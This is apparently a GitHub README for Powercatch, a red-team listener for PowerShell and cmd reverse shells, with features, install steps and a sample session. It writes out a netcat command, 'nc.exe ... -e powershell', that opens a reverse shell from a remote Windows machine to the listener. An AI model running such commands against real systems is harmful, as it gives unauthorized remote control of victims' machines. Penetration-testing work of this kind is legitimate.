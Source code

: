 # Powercatch

Listen for (powershell.exe || cmd.exe) reverse shells!

### Example:
Remote Machine:
```
PS C:\Windows\system32> nc.exe 10.10.10.1 9000 -e powershell
```
Local Machine:
```
$ powercatch 9000
[*] listening on 0.0.0.0:9000
[*] Accepted connection from 10.10.10.95 on port 49988
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.


PS C:\Users\redteam\Desktop> PowerHelp

Commands:
  PowerHelp              Display this menu
  clear                  Clear the screen
  cls                    Clear the screen
  exit                   Use exit command if you are in nested shell eg: if you called cmd within powershell
  quit                   Quits program

Key Combinations:
  Ctrl + \               For Directory completion (Makes a directory request on each key-combination press)
                         eg: PS > dir -Force <Ctrl + \>
  Ctrl + c               Cancels command so that you can try again
  Ctrl + d               Quits program

Future Commands To be Implemented:
  PowerDownload          Download remote file eg: PowerDownload <remote_dir> <local_dir>
  PowerUpload            Upload local file eg: PowerUpload <local_dir> <remote_dir>

PS C:\Users\redteam\Desktop> 
```

## Features:
 - Tab completion 
 - (Ctrl-l or "clear" or "cls") clears the screen
 - History
 - File and Folder completion with Ctrl + \ (Makes a directory request on each key-combination press)
 - Type "PowerHelp" for Powercatch help commands (command not sent over the network)

### TODO:
- Add upload and download functionality

### Install
```
$ git clone https://github.com/postrequest/powercatch.git
$ cd powercatch/
$ pip3 install prompt_toolkit
$ ./powercatch
```
